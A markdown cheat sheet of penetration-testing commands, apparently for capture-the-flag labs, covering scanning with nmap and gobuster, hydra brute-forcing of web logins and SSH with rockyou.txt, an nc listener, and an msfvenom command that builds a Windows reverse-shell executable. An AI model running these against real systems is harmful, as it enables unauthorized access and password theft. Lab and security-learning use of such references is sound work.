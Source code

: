 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV MACHINE_IP
```
Check for vulns also:
```console
nmap -sV -sC --script vuln MACHINE_IP
nmap -sV -vv --script vuln  MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

## john

Brute force hash pwd

```console
john --wordlist=greedykeys.txt hash.txt
```

## searchsploit

Search ExploitDB

```console
searchsploit fuel cms
```

## enum4linux
eg. SMB user name enumeration

```console
enum4linux -e $IP
```